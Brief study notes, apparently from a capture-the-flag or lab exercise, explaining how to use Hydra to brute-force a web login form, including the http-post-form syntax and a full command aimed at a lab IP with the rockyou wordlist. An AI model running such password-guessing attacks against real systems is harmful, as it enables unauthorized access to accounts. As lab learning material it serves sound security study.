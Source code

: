# Notes

* https://www.blackhat.com/

<hr class="sep-both">

## Hydra

> If you don't use kali, you may use wordlist in [SecLists](https://github.com/danielmiessler/SecLists/).

* Post Web Form
* http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
  * /login
  * name="usernam" is filled with the username (USER)
  * name="password" is filled with the password (PASS)
  * F=incorrect means that the attempt is incorrect is this word is on the page
* hydra -l molly -P rockyou.txt 10.10.19.153 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V